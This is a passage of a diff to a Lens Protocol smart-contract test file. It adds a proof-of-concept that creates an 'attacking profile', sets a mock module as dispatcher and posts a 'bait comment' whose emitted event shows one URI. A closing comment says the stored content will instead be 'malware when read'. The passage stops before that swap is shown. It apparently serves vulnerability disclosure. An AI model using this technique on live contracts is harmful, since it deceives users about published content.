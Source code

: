     @@ -175,8 +181,23 @@ makeSuiteCleanRoom('Publishing Comments', function () {
             expect(pub.collectNFT).to.eq(ZERO_ADDRESS);
             expect(pub.referenceModule).to.eq(ZERO_ADDRESS);
           });
    -
    +/**/
           it('User should create a post using the mock reference module as reference module, then comment on that post', async function () {
    +
    +        // user acquires account and sets up the attacking profile
    +        await expect(
    +          lensHub.createProfile({
    +            to: mockReferenceModule.address,
    +            handle: "attack.eth",
    +            imageURI: MOCK_PROFILE_URI,
    +            followModule: ZERO_ADDRESS,
    +            followModuleData: [],
    +            followNFTURI: MOCK_FOLLOW_NFT_URI,
    +          })
    +        ).to.not.be.reverted;
    +        await lensHub.setDispatcher(FIRST_PROFILE_ID, mockReferenceModule.address);
    +
    +        // create a post
             const data = abiCoder.encode(['uint256'], ['1']);
             await expect(
               lensHub.post({
    @@ -189,22 +210,43 @@ makeSuiteCleanRoom('Publishing Comments', function () {
               })
             ).to.not.be.reverted;
     
    -        await expect(
    +        // create extremely interesting bait comment
    +        const BAIT_COMMENT = "https://somethingExtremelyInteresting.com/toGetEngagement";
    +        let receipt = await waitForTx(
               lensHub.comment({
                 profileId: FIRST_PROFILE_ID,
    -            contentURI: MOCK_URI,
    +            contentURI: BAIT_COMMENT,
                 collectModule: emptyCollectModule.address,
                 collectModuleData: [],
                 profileIdPointed: FIRST_PROFILE_ID,
                 pubIdPointed: 2,
                 referenceModule: ZERO_ADDRESS,
                 referenceModuleData: [],
    -          })
    -        ).to.not.be.reverted;
    +          },{gasLimit:12450000})
    +        );
    +
    +        // see the bait in the emitted event...
    +        matchEvent(receipt, 'CommentCreated', [
    +          FIRST_PROFILE_ID,
    +          3, // pubId 3 for profile 1
    +          BAIT_COMMENT, // <-- correct bait in the event
    +          FIRST_PROFILE_ID,
    +          2,
    +          emptyCollectModule.address,
    +          [],
    +          ZERO_ADDRESS,
    +          [],
    +          await getTimestamp(),
    +        ]);
    +
    +        // ...but malware when read, commented, or referenced